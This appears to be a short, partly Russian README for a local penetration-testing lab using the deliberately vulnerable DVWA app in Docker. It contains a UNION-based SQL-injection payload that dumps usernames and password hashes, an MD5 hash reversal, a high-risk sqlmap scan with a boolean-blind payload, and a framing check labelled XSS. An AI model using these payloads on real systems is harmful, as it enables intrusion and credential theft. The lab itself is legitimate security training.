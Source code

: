 ## Запуск тестового сайта

```
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

## Настройка
1. http://localhost/index.php
2. reset/create database
3. admin:password
4. `%' and 1=0 union select null, concat(user,':',password) from users #`
5. The MD5 hash: 5f4dcc3b5aa765d61d8327deb882cf99 was succesfully reversed into the string: password.

## SQL-injection scan example
`sqlmap -r sqlmap.example --dbms=mysql --risk=3 --level=5`<br/>
GET parameter 'id' is **vulnerable**. <br/>
sqlmap identified the following injection point(s) with a total of 502 HTTP(s) requests:
```
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: id=1' OR NOT 4197=4197-- twle&Submit=Submit
```

## XSS-injection example
open iframe.html in browser you should not see the site<br/>
Refused to display 'https://ya.ru/' in a frame because it set 'X-Frame-Options' to 'deny'.<br/>
But on the vulnerable app like localhost/login.php you will see the form

